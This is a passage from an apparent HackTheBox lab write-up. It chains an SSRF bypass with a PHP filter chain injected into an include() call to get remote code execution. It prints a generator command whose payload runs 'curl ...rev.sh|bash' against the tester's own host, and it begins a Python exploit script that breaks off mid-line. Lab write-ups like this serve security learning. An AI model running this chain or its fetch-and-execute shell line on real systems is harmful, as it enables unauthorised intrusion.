 and that how we can bypass domain check and access local host and also vHost.

![](screenshots/ssrf-image-vhost.png)

## PHP filter chain

Now we can access `/actions/action_handler.php?page=` and here we can use "[PHP filter chain](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" (https://github.com/synacktiv/php_filter_chain_generator) to get RCE because `page` param value directly inserted into `include()` function in `actions/action_handler.php`.
```bash
python3 php_filter_chain_generator.py --chain '<?= `curl http://10.10.14.59:8000/rev.sh|bash` ;?>'
```

![](screenshots/php-filter-chain-rce.png)


Exploit script
```py
#!/usr/bin/env python3

"""
Author: poorduck
Usage: python3 script.py
"""

import requests as r
import os
import netifaces as ni
import threading
import http.server
import socketserver

# Get hackthebox vpn ip from tun0 interface
try:
```